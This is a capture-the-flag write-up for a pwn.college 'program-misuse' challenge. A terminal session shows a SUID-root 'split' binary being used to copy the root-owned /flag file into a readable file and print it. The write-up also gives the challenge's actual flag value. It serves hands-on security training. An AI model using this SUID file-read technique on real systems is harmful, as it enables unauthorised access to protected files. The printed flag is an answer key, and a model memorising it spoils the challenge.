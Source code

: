 In this problem, a new command is introduced which is 'split'.

Split command in linux is used to split a large file into smaller parts. It is particularly useful when a large file is needed to be broken down for easier handling or transmission.

```bash
hacker@program-misuse-level-16:~$ cd  /
hacker@program-misuse-level-16:/$ cd challenge/
hacker@program-misuse-level-16:/challenge$ ls
babysuid_level16
hacker@program-misuse-level-16:/challenge$ ./babysuid_level16 
Welcome to ./babysuid_level16!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/split.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level16) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/split!
hacker@program-misuse-level-16:/challenge$ cd /
hacker@program-misuse-level-16:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-16:/$ split flag
hacker@program-misuse-level-16:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  xaa
hacker@program-misuse-level-16:/$ file xaa
xaa: ASCII text
hacker@program-misuse-level-16:/$ ls -l xaa
-rw-r--r-- 1 root hacker 57 Jan  1 17:20 xaa
hacker@program-misuse-level-16:/$ cat xaa
pwn.college{ksKEyXJQsWUKdh6nE-ni7m8gY0I.0FO1EDL0AjNzQzW}
```

So here we can see that after writing 'split flag' in the terminal, a new file is created in the directory named `xaa`.

Here we can see after running `ls -l xaa`, the permissions are `-rw-r--r--` so we have the read permission. I mean the user `hacker`. So we can `cat` it.


